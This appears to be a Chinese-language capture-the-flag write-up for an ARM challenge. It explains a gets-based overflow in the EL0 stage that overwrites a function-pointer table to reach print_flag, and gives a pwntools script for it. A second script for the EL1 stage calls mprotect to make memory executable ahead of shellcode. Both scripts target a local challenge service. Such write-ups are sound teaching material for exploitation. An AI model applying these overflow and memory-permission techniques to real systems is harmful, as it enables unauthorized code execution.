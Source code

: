 打開 IDA 後指令集需選擇 Arm-Little Endian。



#### EL0

`run()` 的 function 當中使用了 function pointer array 來呼叫 function：

```c
cmdtb[cmd](buf, idx, v0);
```

不過在呼叫 function `scanf()` 時，會發現內部實作使用了 `gets(input)`，而 `input` 位於 `cmdtb` 上方，因此可以透過 `input` OOB 蓋掉 `cmdtb` 成 `print_flag()` 來拿到 flag，exploit 如下：

```python
#!/usr/bin/python3

from pwn import *

r = remote('localhost', 6666)
print_flag = 0x400104

r.sendlineafter('cmd> ', '0')
r.sendlineafter('index: ', b'A'*0x100 + p64(print_flag))
r.interactive()
```



#### EL1

要做到 kernel exploit，我們必須要先能執行任意的 shellcode，為此需要透過第一階段的 BOF 使得我們寫入的 data 可以被執行。不過因為 section 的權限保護，因此需要透過 `mprotect()` 與 `mmap()` 來改變 section 的保護權限，而 `mmap` 與 `mprotect` 皆需透過 `svc` (Supervisor Call causes an exception to be taken to EL1) instruction 來向 kernel 請求資源。

由於 `cmdtb[cmd](buf, idx, v0);` 的三個參數剛好都是可以控制的，因此可以用來執行 `mprotect()`：

```python
#!/usr/bin/python3

from pwn import *

r = remote('localhost', 6666)
print_flag = 0x400104
mprotect = 0x401B68

EXEC = 4
WRITE = 2
READ = 1

# mprotect(addr, 0x1000, RWX)
r.sendlineafter('cmd> ', b'1'.ljust(0x100, b'\x00') + p64(print_flag) + p64(mprotect))
r.sendlineafter('index: ', str(0x1000))
r.sendlineafter('key: ', '1'*(READ | WRITE | EXEC))

r.interactive()
```
